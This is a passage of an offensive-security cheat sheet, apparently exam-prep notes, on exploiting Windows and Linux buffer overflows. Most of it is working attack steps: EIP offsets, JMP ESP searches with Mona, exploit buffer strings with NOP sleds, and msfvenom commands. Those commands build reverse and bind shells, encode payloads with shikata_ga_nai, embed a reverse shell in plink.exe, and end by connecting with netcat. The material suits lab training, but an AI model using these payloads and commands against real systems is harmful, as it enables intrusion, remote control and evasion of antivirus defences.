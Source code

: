    - Verify exact location of EIP - \[\*\] Exact match at offset 2606\
buffer = "A" \\\* 2606 + "B" \\\* 4 + "C" \\\* 90

    - Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    - Use Mona to determine a module that is unprotected

    - Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    - Use NASM to determine the HEX code for a JMP ESP instruction\
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP ESP\
00000000 FFE4 jmp esp

- Run Mona in immunity log window to find (FFE4) XEF command\
!mona find -s "\\xff\\xe4" -m slmfc.dll\
found at 0x5f4a358f - Flip around for little endian format\
buffer = "A" \* 2606 + "\\x8f\\x35\\x4a\\x5f" + "C" \* 390

- MSFVenom to create payload\
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\\x00\\x0a\\x0d"

- Final Payload with NOP slide\
buffer="A"\*2606 + "\\x8f\\x35\\x4a\\x5f" + "\\x90" \* 8 + shellcode

- Create a PE Reverse Shell msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe

- Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

- Create a PE reverse shell and embed it into an existing executable msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

- Create a PE Reverse HTTPS shell msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

- Linux Buffer Overflows

    - Run Evans Debugger against an app edb –run /usr/games/crossfire/bin/crossfire

    - ESP register points toward the end of our CBuffer add eax,12 jmp eax 83C00C add eax,byte +0xc FFE0 jmp eax

    - Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF

    - Find JMP ESP address “97451308” # Found at Address 08134597

    - crash = “41” \* 4368 + “97451308” + “8300c09090”

    - msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b “000a0d20” –e x86/shikata_ga_nai

    - Connect to the shell with netcat: nc -v $ip 4444

# Shells
